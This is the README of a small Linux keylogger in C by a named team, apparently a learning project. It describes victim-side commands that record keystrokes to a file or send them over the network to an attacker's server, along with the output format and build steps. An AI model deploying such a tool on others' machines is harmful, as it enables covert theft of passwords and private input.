 This project is inspired by https://github.com/SCOTPAUL/keylog  

Team: Julian Delgado, Mayaank Pillai, Matthew Pak

# keylog

A simple keylogger for Linux written in C. The current version will attempt to detect your keyboard event file automatically. 

## Usage

### Client (Victim)

#### File

```bash
cd keylogger_connectback/
sudo ./keylog -f file-to-write-to.txt
```

This will log all keystrokes to the specified file while the program is running.

#### Network

```bash
cd keylogger_connectback/
sudo ./keylog -n hostname
```

This will send all keystrokes to the server running on `hostname`.

### Server (Attacker)
You can disconnect the keylogger from the server side using Ctrl-C and terminate the server using Ctrl-*, where * is any character besides 'C'.

#### stdout

```bash
cd keylogger_connectback/
./server
```

This will write all keystrokes received from the client to stdout.

#### File

```bash
cd keylogger_connectback/
./server -f file-to-write-to.txt
```

This will write all keystrokes received from the client to the specified file.

## Output Format

Each key press will cause a string representing that key to be written to the
chosen location, followed by a newline. When the program quits, an extra newline will be added.

#### Example

Typing `hello world` and then quitting the program with `Ctrl-C' will cause the chosen location to contain the following.

```
H
E
L
L
O
SPACE
W
O
R
L
D
LEFTCTRL
C
```

## Building

```bash
cd keylogger_connectback/
make
```

# Disclaimer

This code was created entirely out of an interest in learning about linux keyboard events. It should never be used on any machine where you are not authorised to log keystrokes.

